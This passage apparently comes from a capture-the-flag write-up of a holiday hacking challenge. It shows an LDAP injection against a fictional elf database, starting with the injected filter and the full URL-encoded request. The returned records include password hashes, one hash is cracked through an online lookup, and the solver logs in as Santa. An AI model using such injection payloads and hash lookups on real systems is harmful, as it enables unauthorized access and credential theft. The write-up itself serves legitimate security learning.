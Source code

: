 Once this is done we can bypass the login prompt and go to the Elf Database.

Based on the hints the database is performing lookups using LDAP. Recon of the site also finds an LDAP schema description referenced from ```robots.txt```. 

In addition to elves and reindeer the schema also refers to humans. Yet the database does not allow searches for humans, which is suspicious. Let's try to find humans in EDB.

We can inject expression ```a*)(ou=human))(&(gn=*x``` into the query, and also specify all possible fields that we want returned. The following is the full request that we will submit:

```
name=a*)(ou%3Dhuman))(%26(gn%3D*x&isElf=True&attributes=dn%2CobjectClass
%2Ccn%2Csn%2Cgn%2CprofilePath%2Cuid%2Cou%2Cdepartment%2Cmail%2C
telephoneNumber%2Cstreet%2CpostOfficeBox%2CpostalCode%2CpostalAddress%2C
st%2Cl%2Cc%2CfacsimileTelephoneNumber%2Cdescription%2CuserPassword
```

It brings back the data for Santa and Mrs. Claus:

```json
[[["cn=jessica,ou=human,dc=northpolechristmastown,dc=com",{"c":["US"],
"cn":["jessica"],"department":["administrators"],"description":["Mrs. 
Claus is the wife of Santa Claus and is the primary administrator and 
care-taker of the elves. As such, she is highly admired amongst the elf 
kind."],"facsimileTelephoneNumber":["123-456-8893"],"gn":["Jessica"],
"l":["North Pole"],"mail":["jessica.claus@northpolechristmastown.com"],
"objectClass":["addressbookPerson"],"ou":["human"],"postOfficeBox":["126"],
"postalAddress":["Candy Street"],"postalCode":["543210"],"profilePath":
["/img/elves/mrsclause.png"],"sn":["Claus"],"st":["AK"],"street":
["Santa Claus Lane"],"telephoneNumber":["123-456-7893"],"uid":
["jessica.claus"],"userPassword":["16268da802de6a2efe9c672ca79a7071"]}]],
[["cn=santa,ou=human,dc=northpolechristmastown,dc=com",{"c":["US"],
"cn":["santa"],"department":["administrators"],"description":
["A round, white-bearded, jolly old man in a red suit, who lives at the 
North Pole, makes toys for children, and distributes gifts at 
Christmastime. AKA - The Boss!"],"facsimileTelephoneNumber":
["123-456-8893"],"gn":["Santa"],"l":["North Pole"],"mail":
["santa.claus@northpolechristmastown.com"],"objectClass":
["addressbookPerson"],"ou":["human"],"postOfficeBox":["126"],
"postalAddress":["Candy Street"],"postalCode":["543210"],"profilePath":
["/img/elves/santa.png"],"sn":["Claus"],"st":["AK"],"street":
["Santa Claus Lane"],"telephoneNumber":["123-456-7893"],"uid":
["santa.claus"],"userPassword":["d8b4c05a35b0513f302a85c409b4aab3"]}]]]
```

Of particular interest is Santa's password hash. Google search brings a single hit for it at https://hashhack.pro/dict.php?block=d8b4:

```
d8b4c05a35b0513f302a85c409b4aab3:001cookielips001
```

Now, armed with the username/password combination of ```santa.claus/001cookielips001```, we can log into EDB as him and read the letter from the Wizard of Oz:

![wizard]({{ site.baseurl }}/images/sans2017/wizard.png)
